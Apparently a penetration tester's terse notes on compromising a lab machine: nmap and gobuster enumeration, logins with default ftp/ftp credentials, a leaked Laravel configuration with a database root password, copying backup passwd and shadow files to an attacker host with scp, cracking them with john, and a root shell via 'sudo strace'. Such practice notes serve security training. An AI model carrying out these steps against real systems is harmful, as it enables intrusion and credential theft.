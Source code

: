 nmap scan 
nmap -p- -sV -sC -Pn 192.168.102.110 --open
port 21 ftp enabled
tried with anonymous not allowed
tried with ftp ftp, successful
empty ftp
no permission to upload
gobuster common
gobuster big
tried ssh with ftp ftp





	
	21
		uname - ftp
		pass - ftp
		but nothing after, hangs, no output
			got it, but ftp is empty, probably for file upload and accessing through web or maybe there is another ftp user
			permission denied for uploading files on ftp
			
		
	22
		ssh with ftp/ftp successfull
	53 domain
	80
		blank home page
		Apache 2.4.52 ubuntugobuster with common, big and medium no results
	Privesc
		3306 on localhost
			APP_KEY=base64:yN/2x7bTc/KG/T0BZvL8s1W4N4+Y87PXRvJm8iPWzE=
			APP_DEBUG=true
			APP_URL=http://localhost
			DB_CONNECTION=mysql
			DB_HOST=127.0.0.1
			DB_PORT=3306
			DB_DATABASE=creds
			DB_USERNAME=root
			DB_PASSWORD=Strong.DB?Password

		users clay, lisa
		/home/lisa/.bash_history
		/home/lisa/.mysql_history
		/mnt/backup/etc/adduser.conf
		passwd and shadow file /mnt/backup/etc
		scp /mnt/backup/etc/passwd kali@192.168.49.102:.
		john --wordlist=/usr/share/wordlists/rockyou.txt unshade.txt --format=crypt
		lisa peanut.
		sudo -l
		sudo strace -o /dev/null /bin/sh





